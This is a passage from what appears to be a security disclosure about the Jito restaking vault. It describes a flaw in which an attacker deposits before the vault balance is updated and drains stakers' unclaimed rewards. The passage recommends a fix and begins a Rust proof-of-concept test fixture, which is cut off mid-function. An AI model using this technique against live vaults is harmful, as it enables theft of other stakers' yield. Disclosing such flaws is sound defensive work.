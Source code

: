 This means that the attacker funds are never used for delegation and only "leech" on the rewards generated by other stakers.

## Impact Details

Theft of unclaim yield (vault rewards) from stakers. Depending on the vault's TVL at the time of attack and on the attacker's funding, they can drain the majority of the reward (shown in the POC)

## Recommendation

mint\_to (deposit) instruction should update\_vault\_balance before calculating the reveived vrt\_tokens.

## References

https://github.com/jito-foundation/restaking/blob/406903e569da657035a2ca71ad16f8a930db6940/vault\_program/src/update\_vault\_balance.rs#L12

## Proof of Concept

## Proof of Concept

1. add to folloing function to integration\_test/tests/fixtures/vault\_client.rs (same as do\_full\_vault\_update only without calling update\_balance. required for the exploiter move)

```rust
pub async fn do_full_vault_update_no_balance(
        &mut self,
        vault_pubkey: &Pubkey,
        operators: &[Pubkey],
    ) -> Result<(), TestError> {
        let slot = self.banks_client.get_sysvar::<Clock>().await?.slot;

        let config = self
            .get_config(&Config::find_program_address(&jito_vault_program::id()).0)
            .await?;

        let ncn_epoch = slot / config.epoch_length();

        let vault_update_state_tracker = VaultUpdateStateTracker::find_program_address(
            &jito_vault_program::id(),
            vault_pubkey,
            ncn_epoch,
        )
        .0;
        self.initialize_vault_update_state_tracker(vault_pubkey, &vault_update_state_tracker)
            .await?;

        for i in 0..operators.len() {
            let operator_index = (i + ncn_epoch as usize) % operators.len();
            let operator = &operators[operator_index];
            self.crank_vault_update_state_tracker(
                vault_pubkey,
                operator,
                &VaultOperatorDelegation::find_program_address(
                    &jito_vault_program::id(),
                    vault_pubkey,
                    operator,
                )
                .0,
                &vault_update_state_tracker,
            )
            .await?;
```